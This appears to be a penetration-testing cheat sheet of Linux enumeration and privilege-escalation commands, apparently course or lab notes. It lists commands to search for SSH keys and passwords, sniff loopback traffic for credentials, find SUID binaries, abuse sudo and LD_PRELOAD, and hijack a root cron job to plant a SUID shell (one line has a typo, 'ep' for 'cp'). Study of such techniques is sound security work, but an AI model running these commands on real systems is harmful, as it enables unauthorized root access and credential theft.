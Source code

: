 - check `/home/.ssh` for keys
- `su root` (can't hurt to try)
- `sudo tcpdump -i lo -A | grep "pass"`
- `ip neigh` - ipv4 neighbor table
- `netstat -ano` - what ports are open and what communications exist
- `dpkg -l` - list installed programs
- check `/var`, `/opt`,  `/usr/local/src` and "`/usr/src/` for anything interesting
- `find / -writable -type d 2>/dev/null ` - find writable directories
- TCM Color Command: `grep --color=auto -rnw '/' -ie "$searchTerm" --color=always 2> /dev/null` (searches for the term  and spits it out in red)


### Privilege Escalation
#### Automated tools
- linpeas.sh
- unix-privesc-check

#### SUID Executables 
SUID stands for “Set User ID”, and it is a special type of permission that can be given to a file so the file is always run with the permissions of the owner instead of the user executing it.
- `find / -user root -perm -4000 -print 2>/dev/null`
- `find / -type f -perm -04000 -ls 2>/dev/null`
- `find / -type f -perm -u=s 2>/dev/null | xargs ls -l`
- `find / -perm -u=s -type f 2>/dev/null`
- `find / -user root -perm -4000 -exec ls -ldb {} \;`
- There may be more
- drwxr-x-r--
	- this is a directory with read/write/execute for the owner, read/execute for the group, and read for everyone else
	- if there is an S where the first x would be, that is a SUID (vs GUID for group id or sticky bit for the last one which would be a t)

#### Kernel Exploits
`uname -a` - check which kernel
`lsmod` - List Kernel modules
- `/sbin/modinfo $moduleName`

#### Passwords and File Permissions
- `history`
- `find /etc -type f -exec grep -i -I "pass" {} /dev/null \;` for the /etc directory
- `find / -name id_rsa 2>/dev/null` or `authorized_keys`

#### Sudo Escalations
- `sudo -l` then "gtfobins.github.io"
- Escalation via LD_PRELOAD - if you see this in the output, it means you can preload libraries, and you can use that to load a bash shell prior to actually executing one of the commands you're able to load. 
	- Code here: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#ld_preload-and-ld_library_path

#### Scheduled Tasks
Take note of where the PATH is if the full PATH isn't declared
`grep "CRON" /var/log/syslog`
`ls -lah /etc/cron*` 
`cat /etc/crontab`
- especially for processes running as root
- `echo 'ep /bin/bash /tmp/bash; chmod +s /tmp/bash' > $cronScript`
	- then you can execute /tmp bash because of the `+s`
